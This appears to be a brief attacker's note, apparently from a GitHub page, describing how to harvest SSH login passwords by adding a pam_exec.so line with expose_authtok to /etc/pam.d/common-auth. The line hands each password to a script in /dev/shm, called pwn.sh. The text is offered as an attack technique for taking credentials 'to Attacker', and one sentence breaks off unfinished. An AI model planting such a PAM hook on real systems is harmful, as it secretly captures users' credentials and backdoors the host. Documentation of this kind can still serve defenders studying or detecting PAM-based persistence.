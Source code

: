 # Intresting technique: 

Getting ssh keys and logins by modifing auth /etc/pam.d/common-auth for striping keys/passwords from ssh login to Attacker


File that executes actual files - pam_exec.so
expose_authtok - expose the password
By adding last line we give 

```
# and here are more per-package modules (the "Additional" block)
# end of pam-auth-update config
auth    optional            pam_exec.so quiet   expose_authtok  /dev/shm/pwn.sh

```
